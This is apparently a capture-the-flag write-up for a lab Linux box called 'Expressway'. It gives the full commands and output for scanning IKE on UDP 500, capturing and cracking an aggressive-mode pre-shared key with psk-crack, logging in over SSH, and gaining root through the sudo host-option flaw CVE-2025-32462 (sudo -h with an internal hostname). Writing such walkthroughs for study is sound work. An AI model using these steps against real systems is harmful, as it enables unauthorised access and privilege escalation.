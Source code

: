 # Expressway

## Box Info

***

| OS    | Difficulty |
| ----- | ---------- |
| Linux | Easy       |

## 0x1 Nmap Scan

***

### TCP Scan

***

```bash
nmap -sV -sC 10.10.11.87
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-21 18:35 EEST
Nmap scan report for 10.10.11.87
Host is up (0.32s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

we try to scan all ports but just `ssh` is only open using TCP Scan

### UDP Scan

***

```bash
sudo nmap -sU -T4 10.10.11.87
```

```
PORT      STATE         SERVICE
2/udp     filtered      compressnet
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
500/udp   open          isakmp
682/udp   filtered      xfr
959/udp   filtered      unknown
3702/udp  filtered      ws-discovery
4500/udp  open|filtered nat-t-ike
4666/udp  filtered      edonkey
5632/udp  filtered      pcanywherestat
6050/udp  open|filtered x11
18373/udp open|filtered unknown
20217/udp filtered      unknown
20752/udp filtered      unknown
22055/udp open|filtered unknown
25931/udp filtered      unknown
31109/udp filtered      unknown
32931/udp filtered      unknown
49169/udp filtered      unknown
49188/udp filtered      unknown
49200/udp open|filtered unknown
```

we will notice **port 500** is open which associated with the **IKE** (Internet Key Exchange) service. This protocol is the foundation of IPsec VPNs, used to negotiate secure tunnels. This is our attack surface.

## 0x2 IKE-Scan

***

`ike-scan` probes IKE (ISAKMP) services (typically UDP/500 or UDP/4500 with NAT-T) to discover VPN gateways and fingerprint them (Vendor ID/backoff). Key features:

```bash
sudo ike-scan 10.10.11.87
```

```
10.10.11.87     Main Mode Handshake returned HDR=(CKY-R=d7fed0ff80bab75b) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

```

{% hint style="success" %}
* The target responded with a **Main Mode IKE handshake**. IKE is running.
* SA: `3DES / SHA1 / DH group 2 (modp1024) / Auth=PSK / Lifetime=28800s`. → Server uses PSK auth with older crypto parameters.
* Vendor IDs returned: **XAUTH** (implies additional username/password auth for remote-access) and **Dead Peer Detection v1.0**.
* `1 returned handshake; 0 returned notify` → one host responded with handshake; no notify messages.
* Next steps (with permission): capture packets with tcpdump, use `-aggressive --pskcrack` to extract PSK params for offline cracking (ethical/legal warning), and run fingerprinting (`-showbackoff` / VID patterns).
{% endhint %}

### Aggressive Scan

***

```bash
sudo ike-scan --aggressive --pskcrack=psk.out 10.10.11.87
```

![](<../.gitbook/assets/2025 09 21_19_54_25 Kali_Linux_ _VMware_Workstation.png>)

![](../.gitbook/assets/image.png)

### Crack PSK

***

```bash
psk-crack -d ~/wordlist/rockyou.txt psk.out
```

```
Starting psk-crack [ike-scan 1.9.6] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash 73da6b21b10d497e7bc121d2b7d814be265064a3
Ending psk-crack: 8045039 iterations in 5.740 seconds (1401687.07 iterations/sec)

```

## 0x3 Initial foothold

***

```bash
ssh ike@10.10.11.87 
```

```
ke@10.10.11.87's password: 
Last login: Sun Sep 21 17:04:15 BST 2025 from 10.10.16.75 on ssh
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Sep 21 17:15:32 2025 from 10.10.16.73
ike@expressway:~$ ls
CVE-2025-32462.sh  user.txt
ike@expressway:~$ cat user.txt 

```

**We found something interest**

* **`CVE-2025-32462`** → can privilege user to root permission using `sudo -h`
* **`ike`** user is a member of proxy group
* **`PATH`** → has a multiple sudo account which default sudo path is `/usr/bin/sudo` and machine sudo path /`usr/local/bin/sudo` and non default is the first in path

### Finding One

***

![](<../.gitbook/assets/2025 09 21_20_17_26 Kali_Linux_ _VMware_Workstation.png>)

that's meaning if we use [`localhost`](http://localhost) with `sudo -h` we can get root permission

### Finding Two

***

we are a member in proxy group so this group often has permissions related to proxy services like `Squid`

```bash
ike@expressway:~$ ls -l /var/log/squid/
total 20
-rw-r----- 1 proxy proxy 4778 Jul 23 01:19 access.log.1
-rw-r----- 1 proxy proxy   20 Jul 22 19:32 access.log.2.gz
-rw-r----- 1 proxy proxy 2192 Jul 23 01:47 cache.log.1
-rw-r----- 1 proxy proxy  941 Jul 23 01:47 cache.log.2.gz
```

check first file

```bash
ike@expressway:~$ cat /var/log/squid/access.log.1

```

![](<../.gitbook/assets/2025 09 21_20_11_54 Kali_Linux_ _VMware_Workstation.png>)

that’s refer client tried to access an internal-only host named `offramp.expressway.htb` through the proxy

### Finding Three

***

we will use none default root path

<figure><img src="../.gitbook/assets/image 1.png" alt=""><figcaption></figcaption></figure>

## 0x4 Root

***

```bash
ike@expressway:~$ /usr/local/bin/sudo -h offramp.expressway.htb bash
```

<figure><img src="../.gitbook/assets/image 2.png" alt=""><figcaption></figcaption></figure>
